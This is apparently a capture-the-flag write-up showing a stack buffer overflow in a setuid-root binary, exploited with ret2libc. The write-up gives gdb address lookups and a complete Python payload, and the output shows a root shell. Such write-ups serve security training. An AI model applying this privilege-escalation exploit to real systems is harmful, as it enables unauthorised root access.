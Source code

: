 ```
$ ./exploit_me $(python -c "print('A' * 140)")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Since the file has root permissions, we can spawn a shell with a ret2libc attack.
The strategy would be the following
- We use gdb to find the address of the **system** function and the **/bin/bash** string
- We overwrite the **EIP register** with the address of **system**
- We push on the stack at [EIP + 8] the address of **/bin/sh**

```
(gdb) b *main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```

We put this all together in python
```
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

## Tadam

Have fun

